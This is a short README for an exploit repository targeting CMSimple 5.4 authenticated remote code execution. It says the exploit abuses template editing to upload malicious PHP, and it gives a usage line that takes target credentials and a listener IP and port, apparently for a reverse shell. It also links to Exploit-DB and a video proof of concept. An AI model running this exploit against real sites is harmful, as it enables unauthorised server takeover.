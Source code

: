 # CMSimple-5.4-Authenticated-RCE
Cmsimple 5.4 - Remote Code Execution (RCE) (Authenticated)

Description:

Template editing functionality is abused to upload malicious PHP files.

Exploit-DB :https://www.exploit-db.com/exploits/50356

Exploit Usage : cmsimpleRCE.py -url targetdomain.com -u username -p password -ip lhost -lp lport

PoC: https://www.youtube.com/watch?v=7EvncRsiHFU

[![Video](https://img.youtube.com/vi/7EvncRsiHFU/0.jpg)](https://www.youtube.com/watch?v=7EvncRsiHFU)

